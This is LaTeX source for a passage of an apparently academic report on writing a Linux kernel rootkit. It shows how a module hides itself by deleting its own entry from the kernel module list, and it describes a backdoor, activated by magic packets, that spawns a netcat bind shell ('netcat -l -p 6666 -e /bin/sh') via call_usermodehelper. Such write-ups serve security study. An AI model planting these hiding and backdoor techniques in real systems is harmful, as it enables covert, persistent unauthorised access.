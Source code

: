 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
This sounds hard at first but it is rather easy. We can use the special exported symbol \texttt{extern struct module \_\_this\_module;} which points to the module we are currently in. The module structure, see Listing \ref{module}, has a field \texttt{list} that points to the list of all modules. 

\begin{lstlisting}[caption=Extract from Linux/include/linux/module.h, label=module]


struct module {
         enum module_state state;
 
         /* Member of list of modules */
         struct list_head list;
 
         /* Unique handle for this module */
         char name[MODULE_NAME_LEN];

         .
         .
         .

         // skipped for brevity
}
 
\end{lstlisting}

That means to hide the module from detection we only need to delete it from the list of modules and we are done. Luckily the kernel provides us with handy list manipulation functions. Finally our effort boils down to one line of code as you can see in Listing \ref{hide}.

\begin{lstlisting}[caption=Hide the current module., label=hide]
	list_del(&(__this_module.list));
\end{lstlisting}



\subsection{Backdoor}
The dream of every attacker is a backdoor into every system he is interested in. As we have already compromised the system in our scenario and have gained root access (installation of the rootkit) the task of spawning a backdoor to gain access to the system any time we want is rather easy. What we also wanted to achieve is that the backdoor is not active all the time but can be activated whenever needed. Again magic packets, as described in \ref{sec:magicpackage} are used to activate the backdoor. The backdoor itself is achieved by simply spawning a \shellcmdinline{netcat -l -p 6666 -e /bin/sh} process in userland. This is done via the \shellcmdinline{call\_usermodehelper} function. Listing \ref{backdoor} shows the spawning function.
\end{document}
